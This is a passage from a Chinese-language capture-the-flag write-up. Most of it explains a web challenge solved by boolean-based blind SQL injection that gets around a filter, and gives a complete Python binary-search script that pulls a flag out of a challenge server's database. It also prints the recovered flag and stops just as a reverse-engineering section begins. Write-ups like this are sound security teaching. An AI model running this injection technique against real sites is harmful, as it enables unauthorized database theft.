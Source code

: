 执行到最后console就会提示flag了。

#### Challenge 2

flag: flag{45541872-d892-4d7f-a2b1-da68f7597b1f}

首先测试发现输入1和2会返回两句不同的话，输入3以上就爆了，又说在table=flag和column=flag的地方，所以尝试注入select flag from flag，但是会被检测注入，尝试用/\*\*/代替空格也不奏效，然后发现用2|1这样的语句会返回结果，所以考虑用if语句和纯函数注入，方法是检测输入的值和表值的ascii是不是相等，相等就输出1，不然就输出2，这样输出1就代表正确，输出2就代表不正确。为了减少遍历次数，使用二分搜索。

```python
from requests import post
result = ""
for x in range(1, 50):
    low, high = 32, 127
    while low < high:
        mid = (low + high) // 2
        response = post('http://2c0616c9-8209-4027-aa6a-724ee8f9d39e.node5.buuoj.cn:81/index.php',data={"id": f"if(ascii(substr((select(flag)from(flag)),{x},1))>{mid},1,2)"}).text
        if 'glzjin' in response:
            low = mid + 1
        else:
            high = mid
    result += chr(low)
    print(x)
print(result)

```

<div style="page-break-after: always;"></div>

## Reverse

这个rev好简单，要是今年校赛题都是这样的就更好了（x）

![alt text](reverseyitizuobuchulai.png)

下载crackme并丢到IDA中可以找到如下内容：
